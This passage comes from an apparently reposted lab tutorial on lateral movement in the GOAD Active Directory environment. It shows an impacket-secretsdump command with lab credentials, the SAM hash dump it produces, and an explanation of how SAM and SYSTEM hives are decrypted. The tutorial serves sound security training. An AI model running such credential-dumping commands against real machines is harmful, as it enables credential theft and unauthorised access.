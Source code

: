 > [!NOTE]
> Original post can be found here:
> https://mayfly277.github.io/posts/GOADv2-pwning-part9/


In the previous post we tried some privilege escalation techniques. Today we will talk about lateral move. Lateral move append when you already pwned a computer and you move from this computer to another.

# Give me your secrets

- Before jumping from computer to computer we must get the secrets of the owned machine.
- Windows got a lot of different secrets stored in different place.
    
- Let’s launch impacket secretsdump.py and see what we got :

```
impacket-secretsdump NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22
```
![screenshot](pics/secretdump_jeor.png)

# Security Account Manager (SAM) Database

- First secretdump retreive the SAM hashes :
```
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)<br>Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::<br>Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br>DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br>WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:0e181c6215bdbfd5b93917da349fc7cd:::<br>vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
```


- Let’s talk about the sam database.
- The Security Account Manager (SAM) is a database that is present on computers running Windows operating systems that stores user accounts and security descriptors for users on the local computer.
- The sam database is located at : C:\Windows\System32\config\SAM and is mounted on registry at HKLM/SAM
- To be able to decrypt the data you need the contains of the system file located at C:\Windows\System32\config\SYSTEM and is available on the registry at HKLM/SYSTEM.
- SecretDump get the contains of HKLM/SAM and HKLM/SYSTEM and decrypt the contains.
    